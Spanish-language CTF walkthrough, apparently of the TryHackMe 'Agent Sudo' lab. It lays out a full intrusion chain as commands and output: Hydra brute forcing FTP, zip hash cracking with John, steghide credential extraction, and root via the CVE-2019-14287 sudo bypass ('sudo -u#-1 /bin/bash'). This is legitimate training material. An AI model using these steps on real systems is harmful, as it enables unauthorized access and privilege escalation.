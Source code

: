 # Machine AgentSudo

## Informtion Gathering

1. Primero realizo un escaneo de puerto asi:

```
$ nmap -sV 10.10.44.159
``` 
2. El resultado es el siguiente:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

## Analisis de vulnerabilidades

- Luego ejecute dirb de esta manera
```
$ dirb http://10.10.44.159
```
- El resultado que me genero son dos URL que no sirven de nada

## Exploiting

- Probe el puerto **80** y tenia una pagina con el **user-agent** de nombre **R**
- entonces use **curl** para poder hacer la peticion a la ip de la maquina y es así:
```
$  curl -A "R" -L http://10.10.44.159/
```
- El resultado es el mismo **HTML** del puerto 80
- Entonces me dio por probar con cada letra del abecedario y con la **C** me salio un mensaje diferente
```
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, 
change your god damn password, is weak! <br><br>

From,<br>
Agent R 

```
- Ya que tengo un usuario de nombre **chris** voy a intentar hacer fuerza bruta
- Y voy a usar **Hydra** para ver si puedo sacar una contraseña
```
$ hydra -l chris -P rockyou.txt ftp://10.10.44.159
```
- Pude obtener esta contraseña:
```
[21][ftp] host: 10.10.44.159   login: chris   password: crystal
```
- Voy a probar es contraseña y usuario con **SSH** pero no funciono
- Entonces la uso con **FTP** y si funciono
- Hay tres archivos y son esto:
```
-rw-r--r--    1 0     0     217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0     0     33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0     0     34842 Oct 29  2019 cutie.png
```
- voy a descargar esos tres archivos
```
$ get cutie.png //para descargar un solo archivo
$ mget * // para descargar varios archivos
```
- El archvo **To_agentJ.txt** tiene un mensaje que indica donde esta una **password**
- Encontre una herramienta de nombre **binwalk** y decido probar con ambas fotos
```
$ binwalk cutie.png
$ binwalk cute-alien.jpg
```
- El archivo **cute-alien.jpg** no tiene nada pero el **cutie.png** si tiene un archivo comprimido
- Para extraer los es con **binwalk -e** así:
```
$ binwalk -e cutie.png
```
- Nos aparece un archivo zip que necesita de una contraseña entonces podemos uasar **zip2john**, que sirve para sacar la contraseña o mas bien el **hash**
```
$ sudo zip2john 8702.zip > pass.hash
```
- Luego vamos a usar **John the ripper** para decifrar el **hash**
```
$ john pass.hash
```
- Como resultado obtuve esto:
```
alien  (8702.zip/To_agentR.txt)
```
- Uso el comando **zip** pero no funciona entonces use esto y funciono
```
$ 7z e 8702.zip
```
- Ya puedo tener acceso al archivo **To_agentR.txt**
- Ese archivo tiene un pensaje con una cadena de caracteres **alfanumerico**
- Entonces uso **hash-identifier** pero no funciona, entonces busco un herramienta para ver que tipo de encriptacion es y encontre **Cyberchef**
- Al parecer es **base64** entonces uso esta intruccion para decrifra
```
$ echo -n 'QXJlYTUx' | base64 -d
```
- Su contraseña es **Area51** entonces la uso para el **SSH** pero no funciona
- Entonces decido probar esa contraseña con la imagen **.jpg** usando el **steghide**
```
$ steghide info cute-alien.jpg
```
- La imagen tiene un archivo **.txt** y voy a usar esto
```
$ steghide extract -sf cute-alien.jpg
```
- Obtengo un usuario de nombre **james** y la contraseña **hackerrules!**
- Luego ya tenemos acceso al **SSH**
```
$ ssh james@10.10.44.159
```
- Podemos entonces sacar la bandera de **user**
- Podemos descargar ese **.jpg** de esta manera
```
mrandrew@kali:~$ scp james@10.10.44.159:/home/james/Alien_autospy.jpg .
```
- Con el **punto (.)** le decimos que lo copie en nuestro directorio actual de la maquina **Kali**
- Podemos abrir la imagen con el comando **eog** así:
```
$ eog Alien_autospy.jpg
```
- Con la herramienta **exiftool** podemos ver la meta data de la imagen así:
```
$ exiftool Alien_autospy.jpg
```
- Podemos colocar en internet **google image search** para sacar mas información de la imagen **Alien_autospy.jpg**
- Entonces hago un **sudo -l** y me sale esto:
```
(ALL, !root) /bin/bash
```
- Se me hace raro por que tenemos el **ALL** pero no tenemos el **/bin/bash**
- Entonces en internet encontre una vulnerabilidad
```
CVE-2019-14287
```
- El exploit que encontre en **exploit-db** solo sugiere ejecutar esta instruccion
```
$ sudo -u#-1 /bin/bash
```
- Ya con la instruccion anterior soy **root** y puedo obtener la ultima bandera

## Glosario

- **user-agent:** 
- **Ataque de diccionario:** es un método de cracking que consiste en intentar averiguar una contraseña probando todas las palabras del diccionario. Este tipo de ataque suele ser más eficiente que un ataque de fuerza bruta, ya que muchos usuarios suelen utilizar una palabra existente en su lengua como contraseña para que la clave sea fácil de recordar, lo cual no es una práctica recomendable. Es decir que vamos a probar las palabras que hay en diccionario para ver si concide con la contraseña
- **Ataque de fuerza bruta:** es la forma de recuperar una clave probando todas las combinaciones posibles hasta encontrar aquella que permite el acceso. Es decir se hacen combinaciones de palabras hasta que se llegue a la indicada

## Investigación

- Opciones **Curl:** https://fmhelp.filemaker.com/help/16/fmp/es/index.html#page/FMP_Help/curl-options.html

- Opciones **FTP:** https://blog.unelink.es/wiki/conectarse-a-un-ftp-desde-linux-y-algunos-comandos-basicos/

- Herramienta **base 64:** https://gchq.github.io/CyberChef/

- Manipulacion **SSH:** https://ed.team/blog/copiar-archivos-a-un-servidor-remoto-usando-la-terminal

- **Binwalk:** https://backtrackacademy.com/tools/binwalk#:~:text=Binwalk%20es%20una%20herramienta%20para,de%20las%20im%C3%A1genes%20del%20firmware.

- https://www.exploit-db.com/exploits/47502

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287

- https://geekytheory.com/copiar-archivos-a-traves-de-ssh-con-scp

- https://seguridadroberto.wordpress.com/2016/11/19/ataques-de-diccionario-ataques-de-fuerza-bruta-programas-diccionarios/#:~:text=En%20criptograf%C3%ADa%2C%20se%20denomina%20ataque,aquella%20que%20permite%20el%20acceso.&text=La%20fuerza%20bruta%20suele%20combinarse,para%20ir%20probando%20con%20ellas.

## Explotación maquina Ignite

https://joona.xyz/2020/03/07/thm-agent-sudo.html

https://floreaiulianpfa.com/agent-sudo-ctf-try-hack-me/

https://sckull.github.io/posts/agent_sudo/

https://blog.qz.sg/agent-sudo-ctf-tryhackme/